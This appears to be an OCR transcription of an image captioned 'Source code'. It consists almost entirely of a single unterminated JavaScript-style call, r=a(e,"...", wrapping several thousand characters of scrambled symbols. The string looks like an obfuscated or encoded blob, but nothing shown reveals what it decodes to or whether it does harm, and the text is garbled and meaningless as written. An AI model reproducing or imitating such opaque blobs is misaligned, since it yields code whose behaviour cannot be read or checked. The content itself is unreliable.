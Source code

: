 r=a(e,"2MV_a&5vkR*oN?0:?:cNRVMkR0Va*N_Go5_NNVaka0N&M*5M:o5N:VvkaM:_v5::kk0:kvMR*_MR*kV_*oMvov&MN0&_?_&00*:?*Rhkk0Ma00kki:R:?VR0VvoGV:vAa?o?&&kk&0055R:a5o0:k5:?kVNa*MMR**Va5VM&o?a_Nk__Noa:RVa0oMB&RaM-R5MN:aR?MNkvM:oV_No&_&o??:v&0*v4:5NRvM:?kM:R&NM&R*Vc*MV55:yvo5_RoRav5_0N50:av*vv:k5?FVM*R0Va**_do5_NZokkN:&R?*5(05*:5M0a5?:5pNRAM5RNVV*kV0?Nv*NMa*NN&V?ko_Vk?_&?vvdMkVxkk0&vQ5k:MaRMo_aZo0aaN**Fa&N:ao?N&v0_5kkMM:kNMVRk5MM5k:MaR:_WvN0kN5nvNs&Vk5Ma0M55R0&?:Rk&0*RM;ak??v_5&a?R&:0&5o:Mkv*_0N8*k:M&RoVM*vv&&R*MV:*N_VokRMVvoN_&ooa**R&??v:&v*D{k5HNRaMkR0Va**_=v5R0CVaR?v&a?*5T_*?M5*0Na*0&5N:&kVR?V5*kV0oakuV:oaau&_?:&00a5*&50k5o0:&*?&&5RNVi*5VNoV_kR0o_p*&M?0&N0V5kM:RaVv*W_voNaVNkV<?v&?0_5R0:v&kok??&&o0B550NR?:Rkahak*MI?vv:M5RMVaRRoo&hN5aN?VR*_:Nv&&?v5k0ovv:5vV?vkR%NR&M05&oRaaNaa*?WRRaoN0&v0QVvvoskk5UNRV5N9_RNM0k_M:o5Vva*N0&a?*5g05*NkMok::kk,*RfM50:koVVR_o55?:_vR::k&soaMV_5o:&v5:NkVvo:0v&MMk0*v_5oV_ko0RkV:Nka*R0&v?N5V0_5kkM/0kNMVRk5vMVR?VaRvV**&V?a:?0&*0%55__?v5N?M5R:Nk5::v:BvVRo*_ao*ayMkoMa&o?&Vo_&kN_55??vR:5-:RkM**}V5VFR_Vo*RN5a*?J&5?N5V0k*k_avo8Rk5;NRV5kQ*k&V_R&Vkk__voMN:&*?*5I05oN&_0*5_:Vv0RVvNTVkkr0RaM*Vq::av?5&V?k&0_kN:5k0*_::Mva:?k5N?VM*?VNoV_kYMo__ko0_oo:&55R:vva:*kGaN:ov&1?RM:pRRV_**o?aRNka0?a*0a&?05coa5v:5G&k?MrR5MN:M50:a_50?v_:Rv:y&koNR*_0ov0:5vNxV?ov?DRkN._ko::R_V5oM{5oR_No*?05V0k50:av*DJ&5aoR_MNR0Va**RvMv*RVvaR?V&a?*5L_*?M5*0N::k?H*RFM50PRanRR&MoRoVVoV_M&_:M&00a5*_?0&5o:A&o:_vv:Rv_M*R0Mo*5V&ovMVoR_*Nmav?5V:0k50:VTkV5*o_Mov_?N_RRv&o?a0Nka0?a*3aNN:&*?RMkN0v_xMv&Kk&5*aVk*0_ao*afN5_NMM&R0v5a0*vr&R0ova:vk_ukk_P0ko*0_Vok_0Naa*?=kkMN5_:_50:av*aN:&5::_ka00Rh;o*RMo*0N_&&N0&a?**_&&?k5M0*&M0Rvog&voi*k&1?V:oR_*NYa5VMR5aMNoM55o:&v5:NkVa0?*5VNvvk*kVNoV_ko0aaN*RaM5&?0N5k00vaa?0:vo:0v&:?vMg&RkV__k&5?o5M0v5?:_RR*&0?vR:kv0!a?*vN:vR&<vR*VM_&N*aXN5aNM&Naa_N&&NNa&o:av5?vvN?*kRD_RoM:_aok_0Naa*?H&5?N5V0Rv*:av*cO??5?:okN0aR_MNv_M0*&V0*NN:&k?*5#05R?VV*kV0k&;?R;M5RNR1O?*&o&a5Nca5NNR&av?/&VN:5VNk&?05vM;_kvRNo*_:N&ao?M&vM?7R&VvY:&voXMkv1?N_o:JvRDMVRkM00RRkV&*_o?&MNka0?a**aNNva:?v5S0?v700v&Tkv,Fv*IVV_&ooabN5aN::&R055a0*v,aoN&a&:vkGWVv:MVVvNV_Vok_0K5*o__NMa_?a&v0_5V?0&a:k5?7sko{0k&MNR&VaR:_oaR?o&a?*5Ga&ov_:Na5*:X&?0_k*3/v_M_v:o5*qV5*N_Vok_0_aV_5o:*v5:NkV&??v&oYNkMW*R&Mv*5_Va5N*&J?5&N0V5kV5oa:*kMdk&R?05a0*ve:5RNv&o?avNka0?a*S&VNv&R?v:*ao?y&5?N5V0kv05v*0akoNa4N5aN?V&k?05a0ovf:5vNMaRo>0RaM*?vV5*N_VN*a0Naa*?/*k?N5V0kRaUNv* {k5MVRVMRR0Vk**_aav_NNVak?a&a?o5F0*:?:Vvk:0ko8*RMM5RNv:*kV0oa_oN-a5NN5a5v&00a5*Mav5:NkVVk0*MaR*Vp*5VN:o_k?AaRN*&M?55?0V5k00vaM&k;=5kNMaRkVr*a_NNv_5o?aV0Na0?a&*<cvN0Nv_:kv:Pa?_MW*kVT*VV**0kNo*a4N5aN0*&k?:5a0Nv#:kvNMaMvx0R5M*NaV5*N_V?kR*NaaN?c&k?N*o0kkE{ov*#_k5V:RVMkR0VaNq_iok_NNaak?8&a0N5M055::VRN:0ka^*osV&RNV&*k_Moak_Nd&k0M&V?N&0:k5*:Ev5:NR5TkRMMaRNV9*kVNNaNvo0akN*va?5&N0Vkka*va:0k6(*kN&oRk_<oaV*o&_5?:aVNka0?a&?0K5*0Nva:kktZaRNM5R5VM*VaN*0_ao*5(?RaN?v&k0_5a__v^TkkkzVk0)0*kM**jV5*N_voka_NaaN?z&k?Nvavv50:*v*Vak5UNRV_k:*Vaoi_+oN_NXoak0u5e?*5v05Ro:Vvk:0kaVaReMNRNVa*k_<oaaN?5a5?_&V:N&00a5*MPRM:NkRzkR&Ma0_VGok_NoVa9o05vN*&%?5&N:&5k:&va:NkQ kkNVaVvM0*NV*?a_5oNaV0k**?a5V0q500Noo:kR{M:k*MRR5_:*VVk*0_a?caIN0aN?a&k0b5a:Nko:5k&6V*N{0RaM*NPVk*N_ookavNaR_?H5k:55V:V50-kv*fxk59NRvMk*vVa*N_Hok_N?a?vN0&0?*ka055N:VRk&*kaMaR#VqRN5o*ka7NN_*Noa5MN&V?k&00avo:Sk^:NkaXkR-Ma*NV:*5_voV&No0aaN*v;?v&N0?5k:Rvaa_kFMkRNMV*aM0:kV*oq_5oN&sNk&R?a&N0z5k0Nkakvv0Mrk*aaR5MN*VakN5_aN5aI?VaNM5&k:05v0*vN:5kkYVN&s0oaM?*Y_V*N_0okk&Na&N?0&50*5VMM50:av*ch*M(NR0Mk*NVa*N_DN5_?NVakN0v0?*5N05RN:vvk:0ka_KR;MvRN_V_dV0o&_*0*a5NN&V0*5?0av5:-R_:NkVfk*0V&R*VN*5_koVa0o0&5G:&A0_&NVk5k00vatNka)5R*MV?0M0*aV*NVaRoN&MNkRa?a&*0#55::vV%av0M_k*MVR5VNoRVk*:_a?5a4?VaN0a&R?0vz0**::5vNDV*kMpRaV5*P_V*Nvook&QNoa*??&5V:5V0k5045o:CeRawN?kMkR0VaoNaVo5aoNVRoN0&a?*vV0N5NhVvkaakah*RuM5*?VVoaV0Na_*NVa5?N5N?k&:0avv:4kV:NRa{Rk0VbR*&:*5VNoV&kNVaa?5&70V&NVo5kgb>v:*k?85?VMVRkM0o5_RogaaoNaaNka0?a5N0a55:ovV_0v0.ak*VV*RMNoVVkos_ao*aeN5&&?V5a?0va0*vV:5kN!akk%:Ra_**T_V*N5VNk_0N&a*0o&5_V5VMkNV:avo8uoN/N0kMko%_N**_No5avNVakN0va0R5i:V5N:0vkavkaMN*&M5*RVV00V0oa_*?V&oNN5O?k5k0a5*:fv5(NkVMak0VVR*VV*5_NNv_kNkaaMa&-0V&N:Vvv00v0:***j5k?MV*k&V*a_&o+56oNa_Nk5z00&*0N55V*vV:kv0VaR:MP*VMN*0Vk:v_ao*aRN5&R?V&R?05a0*kV::vNMAkkMMRaM**Oa5Na_VN5_0?Va*MR&5005o0kv?:aNfCwk5)N*a*vR0_a**a?o5_NNV5k&a&a0*5n:55NlkvkMHR_{**MM50VVV*kV0N5akNE&kNN5&?k&00avN:Mv5;:kVM:k0MaR*VXo_VNNV_k?MaaN*&^?55V0Vv500va:*kVb5R0V0RkV?*aV?od_5oN5VV0a00_&*0:55_&vV9**R/aR*MF?LMN*VVkND_oo*&MN55R?V&k?0ka:*v.dvvNM_kkVaRaVN*MV5o0_V:0_0Naa*0V5??Nv&0kv5:av*Y6RkMoRVVNR0_o**_So5_N?5ak?:&a005!055N:V*&:0R_7*RIM5RNVV*kkkoaavN(a5NN&_?k&05:5*:Nv5:0kVU*k0VaV_VsoMVNoo_kN*aa?*&o?5&:0VRV00v&:*oKVMkNM&Rk5:*a5aoOakN_aV?aa0M_&*0H55QNv&:kk*3aR5MQ?:MNoaa&*0aMo*v*N5aN?V5*?:5a:kvF_NvN,VkkV7RoM**:V5:k_Vok_0?5*N?=55?N*k0k50:av*J:k5MkRVVkR0V5**a>Na_NN&ak00&a055z:kvk:Vka:0?Mp*R(M5oN_0*k_*oaa5NP&oNNvV:V&0:Q5*:Nv5V0kVMkRkMaR?VLooVNo0_k00kNN*&_?5RM0V*k00k5vNktMVkNV:RkM0*aa*NN_5NkaV?aa00*&*:Vv;0Nv::kR&Qak*M+*kV**V_5*0aoo*a#N5&0?R&k0?5aBMvi:5vN(VR:S0*EM**:V5*0_VNk&5Naa??9kV?N500kR0_Nv*s_k5V*RVaBR0_a_0_%ok_N0NakN:&a0Nv505vk:Vov:0kab*owV5RNV0*k_*oak_Nm&k?R&V0&&0Vv5*:tv5r0Ro,kRNMa0gVS*5VNNa_0o0&_N*k_?5&N0Vv*:0vat*kAaNkNMVRkM0VvV*oN_5NNaVN*a00avv0U5k0Nv::kk*%aRNVaR5Vk*V5v*0_ao*5x0VaN?0&k0*5a__vnrkv?)VR&)0NNM**uV5o0__okaNNaRD?,&5?Nva0:50S_v*MRk5ONRVV*#%Vao*_F:N_NNVakN05N?*5N05vN:Vv*:0Ra}?RpMkRNaV*k_*oaaNNva5?k&VV&&00a5*Mik::Nk0^kR*Ma*:VyN5_aoVaao0&}N*kV?55N:?5k:Bvaq:k/MVkNaV0OM0*5V*0&_50NaV?*?i?a550(k_0NvV:kR0VMk*MNR5Vk*V_0*0a5NNaS?_aN0R&k?05a:Nv::5k*bVR:T0RaM*oVV:*NaMok&&Naa*?h&5005V:a50U_v*/Vk5MN*&Mk*^Va?5_gNV_N?aN*N05q?*v?055N:VRkcakaM5R/VVRN_k*kaAN&_*N?a5?:&V?k&0:5vo:)ka:NNkGkk0Ma*N_5*5_ooVv0o0aaN*&{0:&N005k:?va:NkZM5R5MVR*M0N+V*oN_50Nk*Nk&w?avk0-oo0NRV5?v0Mik*M*R5Vk*VVk_R_aN5aGNkaN?a&k000?0*vN:5*5PVk*g0*aV&*!Vo*N&Nok_:Nav*0v&50M5V_R50V0v*MVk08NR0Mk??Va**_#?5&_NV&aN05